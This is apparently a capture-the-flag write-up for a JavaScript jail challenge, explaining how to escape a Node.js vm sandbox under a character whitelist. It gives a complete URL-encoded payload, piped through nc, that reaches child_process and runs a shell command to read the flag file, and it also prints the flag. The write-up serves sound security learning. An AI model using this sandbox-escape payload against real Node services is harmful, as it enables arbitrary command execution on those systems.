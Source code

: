 #### Challenge:

It's clam's newest javascript Calculator-as-a-Service: the CaaSio Please Stop Edition! no but actually please stop I hate jsjails js isn't a good language stop putting one in every ctf I don't want to look at another jsjail because if I do I might vomit from how much I hate js and js quirks aren't even cool or funny or quirky they're just painful because why would you design a language like this ahhhhhhhhhhhhhhhhhhhhh

Connect to it at `nc challs.actf.co 31337`. [Source](./index.js ":ignore")

---

#### Solution:

- there is known way to escape `vm` sandbox via by `this.constructor.constructor("alert(1)")`, only remaining obstacle is the input character whitelist
- most of the banned characters can be `URL` encoded leaving us just to figure out how to construct `string` without any quotes, for that we can use `regex`, `/alert(1)/` have an implicit conversion to string `"/alert(1)/"` and with help of `eval` we can treat unneeded `/` as comments like so `/**/alert(1)/**/`

```bash
echo 'eval(unescape(/%2a%2a%2fthis%2econstructor%2econstructor%28%27return%20process%2emainModule%2erequire%28%22child%5fprocess%22%29%2eexecSync%28%22cat%20flag%2etxt%22%29%2etoString%28%29%27%29%28%29%2f%2a%2a/))' | nc challs.actf.co 31337
```

---

<details><summary>FLAG:</summary>

```
actf{omg_js_is_like_so_quirky_haha}
```

</details>
<br/>
